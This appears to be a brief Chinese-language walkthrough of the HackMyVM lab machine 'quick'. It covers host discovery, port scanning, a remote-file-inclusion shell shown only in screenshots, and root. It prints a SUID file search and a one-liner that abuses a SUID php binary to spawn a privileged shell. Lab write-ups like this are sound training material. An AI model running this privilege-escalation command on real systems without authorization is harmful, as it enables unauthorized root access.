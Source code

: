 ```yaml
---
title: quick
tags:
  - sec
date: 2024-02-10T22:09:01
lastmod: 2025-09-29T20:51:52
toc: "true"
draft: "false"
---
```

## host discovery
主机发现, 重置了 wsl 的环境之后, 发现能够使用 arp-scan 了
![HMM_quick_image_1](https://img.l1uyun.one/HMM_quick_image_1.png)
前后对比
![HMM_quick_image_2](https://img.l1uyun.one/HMM_quick_image_2.png)
```bash
192.168.10.12
```
## port scan
只有一个 80 端口
![HMM_quick_image_3](https://img.l1uyun.one/HMM_quick_image_3.png)

服务版本, 默认脚本, 操作系统扫描
![HMM_quick_image_4](https://img.l1uyun.one/HMM_quick_image_4.png)
漏洞扫描
![HMM_quick_image_5](https://img.l1uyun.one/HMM_quick_image_5.png)

## 利用远程包含获得 shell 
RFI
![HMM_quick_image_6](https://img.l1uyun.one/HMM_quick_image_6.png)
![HMM_quick_image_7](https://img.l1uyun.one/HMM_quick_image_7.png)
## user. txt PWD
![HMM_quick_image_8](https://img.l1uyun.one/HMM_quick_image_8.png)
![HMM_quick_image_9](https://img.l1uyun.one/HMM_quick_image_9.png)
## use SUID file to get root
 `find / -type f -perm -u=s 2>/dev/null`
发现一个suid的 php
```bash
./usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
```
## root. txt PWD

![HMM_quick_image_10](https://img.l1uyun.one/HMM_quick_image_10.png)